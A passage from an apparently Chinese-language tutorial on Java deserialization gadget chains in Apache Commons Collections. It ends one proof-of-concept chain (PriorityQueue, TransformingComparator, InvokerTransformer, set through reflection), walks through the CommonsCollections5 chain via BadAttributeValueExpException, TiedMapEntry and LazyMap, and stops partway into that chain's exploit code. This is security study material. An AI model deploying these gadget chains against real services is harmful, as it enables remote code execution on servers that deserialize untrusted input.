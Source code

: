 ```java  
        TransformingComparator transformingComparator = new TransformingComparator(new ConstantTransformer(1));    
    
        PriorityQueue priorityQueue = new PriorityQueue(transformingComparator);    
    
        priorityQueue.add(templatesImpl);    
        priorityQueue.add(2);    
    
        Class c = transformingComparator.getClass();    
        Field transformerField = c.getDeclaredField("transformer");    
        transformerField.setAccessible(true);    
        transformerField.set(transformingComparator,invokerTransformer);    
    
//        serialize(priorityQueue);    
        unserialize("ser.bin");    
    }    
    public static void serialize(Object obj) throws Exception{    
        ObjectOutputStream oos = new ObjectOutputStream(new FileOutputStream("ser.bin"));    
        oos.writeObject(obj);    
    }    
    
    public static Object unserialize(String filename) throws Exception{    
        ObjectInputStream ois = new ObjectInputStream(new FileInputStream(filename));    
        Object obj = ois.readObject();    
        return obj;    
    
    }    
}  
```  
  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202401171948223.png)
### CommonsCollections5 链详解  
这里利用了`TiedMapEntry`类中的`toString()`方法  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202401172007422.png)
接着又去调用了`getValue()`  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202401172007376.png)
然后调用了任意类的`get()`方法，这里直接用`LazyMap`类中的`get()`方法即可  
后面的直接用 CC1 部分链  
这里的入口点`readObject()`需要选一个有`toString()`方法的，这里用`BadAttributeValueExpException`类中的`readObject()`方法  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202401172010602.png)
构造`poc`  
```java  
package org.example.CommonsCollections;    
    
import org.apache.commons.collections.Transformer;    
import org.apache.commons.collections.functors.ChainedTransformer;    
import org.apache.commons.collections.functors.ConstantTransformer;    
import org.apache.commons.collections.functors.InvokerTransformer;    
import org.apache.commons.collections.keyvalue.TiedMapEntry;    
import org.apache.commons.collections.map.LazyMap;    
import org.apache.commons.collections4.map.TransformedMap;    
    
import javax.management.BadAttributeValueExpException;    
import java.io.*;    
import java.lang.reflect.Field;    
import java.util.HashMap;    
import java.util.Map;    
    
public class CommonsCollections5 {    
    public static void main(String[] args) throws Exception{    
```